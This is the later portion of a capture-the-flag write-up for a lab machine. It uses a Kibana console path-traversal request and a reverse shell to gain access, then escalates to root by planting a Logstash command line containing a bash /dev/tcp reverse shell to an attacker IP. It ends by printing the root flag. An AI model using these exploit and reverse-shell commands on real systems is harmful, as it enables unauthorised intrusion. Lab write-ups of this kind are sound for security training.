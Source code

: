 ```
[security@haystack shm]$ curl -X GET "localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../dev/shm/rev.js" -H "kbnxsrf:true"
```

now i take a shell as `kibana user`

```Shell
root@X-Billy:~# nc -lvp 8001
listening on [any] 8001 ...
10.10.10.115: inverse host lookup failed: Unknown host
connect to [10.10.16.161] from (UNKNOWN) [10.10.10.115] 36212
whoami
kibana
```

and now we will go to the configration file `/etc/logstash/conf.d`

```Shell
cd /etc/logstash/conf.d
ls
filter.conf
input.conf
output.conf
```

lets check what is inside `filter.conf` 

```
cat filter.conf
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
```

nicee .. this filter allows us to excute commands with the proper  
now we will make our logstash file and put it into `/opt/kibana`  

`Ejecutar comando : bash -i >& /dev/tcp/10.10.16.161/6666 0>&1`  

after make this file lets listening to `port 6666`  

with command `root@X-Billy:~/Desktop# nc -lvp 6666`  

> finally Rooted

```Shell
root@X-Billy:# cat /root/root.txt
cat /root/root.txt
3f5f727c38d9f70e1d2ad2ba11059d9`
```

---

I hope u enjoyed with this writeup. You can follow me on the twitter [@X-Billy](https://twitter.com/XBilly_official)
